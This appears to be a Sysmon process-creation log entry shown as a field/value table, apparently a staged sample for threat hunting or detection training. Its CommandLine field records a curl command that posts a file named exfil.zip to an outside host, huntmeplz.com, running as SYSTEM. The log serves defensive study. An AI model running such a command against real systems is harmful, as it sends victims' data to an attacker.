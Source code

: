 | **Field**             | **Value**                                                                                                                                                                      |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CommandLine           | `curl -d @exfil.zip http://huntmeplz.com:8080/`                                                                                                                               |
| Company               | curl, https://curl.haxx.se/                                                                                                                                                   |
| CurrentDirectory      | `C:\Users\victim\Documents\`                                                                                                                                                  |
| Description           | The curl executable                                                                                                                                                           |
| EventID               | 1                                                                                                                                                                              |
| FileVersion           | 7.55.1                                                                                                                                                                         |
| Hashes                | MD5=2419907A0BB9A14F1871F0BDA7F65578, SHA256=C53B0901C262071DA3F3FBB69C30C2C26E2AB7866C7C42183C830B9A609C7994, IMPHASH=93009B50C3F15A001009BCDE9939BF92 |
| Image                 | `C:\Windows\System32\curl.exe`                                                                                                                                                |
| IntegrityLevel        | System                                                                                                                                                                        |
| LogonGuid             | `{4bbef3ae-819b-630c-e703-000000000000}`                                                                                                                                      |
| LogonId               | `0x3e7`                                                                                                                                                                       |
| OriginalFileName      | curl.exe                                                                                                                                                                      |
| ParentCommandLine     | `cmd.exe`                                                                                                                                                                     |
| ParentImage           | `C:\Windows\System32\cmd.exe`                                                                                                                                                 |
| ParentProcessGuid     | `{4bbef3ae-cc6b-630c-1e10-000000000e00}`                                                                                                                                      |
| ParentProcessId       | 6420                                                                                                                                                                          |
| ParentUser            | NT AUTHORITY\SYSTEM                                                                                                                                                          |
| ProcessGuid           | `{4bbef3ae-cc83-630c-2010-000000000e00}`                                                                                                                                      |
| ProcessId             | 10928                                                                                                                                                                         |
| Product               | The curl executable                                                                                                                                                           |
| RuleName              | -                                                                                                                                                                              |
| TerminalSessionId     | 0                                                                                                                                                                              |
| User                  | NT AUTHORITY\SYSTEM                                                                                                                                                          |
| UtcTime               | 2022-08-29 14:26:11.321                                                                                                                                                        |
